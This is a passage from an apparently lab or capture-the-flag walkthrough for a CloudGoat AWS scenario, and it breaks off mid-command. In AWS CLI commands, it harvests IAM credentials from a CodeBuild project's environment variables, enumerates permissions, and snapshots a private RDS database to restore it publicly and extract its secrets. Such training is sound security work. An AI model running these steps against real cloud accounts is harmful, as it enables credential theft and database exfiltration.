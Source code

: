 ```bash
    --names cg-codebuild-cgidxgz5plnjdu \
    --profile $SRC_PROFILE

aws codebuild batch-get-projects \
    --names cg-codebuild-cgidxgz5plnjdu \
    --query "projects[*].environment" \
    --profile $SRC_PROFILE
# notice that the environment variables of the build project have some IAM security credentials
# might possibly belong to an IAM User "Calrissian".



# ------------- 4. credentail for Calrissian
# To verify the credentials
# create an AWS CLI named profile with the security credentials
# run `aws sts get-caller-identity` for that profile.

# use [enumerate-iam] script to see the user privileges
# IAM User "Calrissian" has some EC2 and RDS related permissions.



# ------------- 5. check RDS instances in the AWS account.
aws rds describe-db-instances \
    --query "DBInstances[*].[DBInstanceIdentifier, Engine , DBName]" \
    --output text \
    --profile calrissian
# cg-rds-instance-cgidetofos97ig     postgres     securedb

# There is an RDS instance in the AWS account that is using "PostgreSQL" but it is not publicly accessible.
# This is our target RDS instance on which the secrets are stored in "securedb" database.

# There are various ways to continue our exploitation


# ------------- 6. create a snapshot of the running RDS instance
# use snapshot to create another RDS instance that we can control, from which we can extract the secrets.
# create a snapshot of the running RDS instance.
aws rds create-db-snapshot \
    --db-snapshot-identifier secrets-snapshot \
    --db-instance-identifier cg-rds-instance-<CLOUDGOAT-ID> \
    --profile calrissian

# create an RDS instance from the snapshot.
# For us to be able to access the RDS Instance we create publicly, place it in appropriate subnet and security group.

# 1. identify the subnet group of the already running RDS Instance.
aws rds describe-db-subnet-groups \
    --query "DBSubnetGroups[?contains(DBSubnetGroupName,'rds')]" \
    --profile calrissian

# 2. check if there is a security group that allows us to communicate with RDS service.  
aws ec2 describe-security-groups \
    --query "SecurityGroups[?contains(Description,'RDS')]" \
    --profile calrissian

# create an RDS instance from the snapshot.
aws rds restore-db-instance-from-db-snapshot \
    --db-instance-identifier secrets-instance \
    --db-snapshot-identifier secrets-snapshot \
```